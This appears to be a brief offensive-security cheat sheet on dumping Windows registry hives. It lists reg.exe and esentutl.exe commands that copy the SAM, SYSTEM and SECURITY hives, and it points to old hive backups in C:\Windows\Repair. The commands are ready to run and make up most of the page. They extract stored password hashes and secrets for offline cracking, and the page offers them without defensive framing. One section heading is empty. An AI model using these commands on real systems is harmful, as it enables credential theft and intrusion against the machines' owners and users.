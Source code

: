 # Dumping registry hives

## Reg.exe utility

Built in windows utility

```text
reg save hklm\system system
reg save hklm\security security
reg save hklm\sam sam
```

## Essentutl.exe utility 

Built in windows binary

```text
esentutl.exe /y /vss C:\Windows\System32\config\SYSTEM /d c:\temp\SYSTEM
esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\security
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
```

## VSSshadow.exe utility

## Backups

In some scenario, registry haves are backed up to C:\Windows\Repair\\*. This can be worth checking but will likely be out of date. 

E.g.  C:\Windows\Repair\SAM

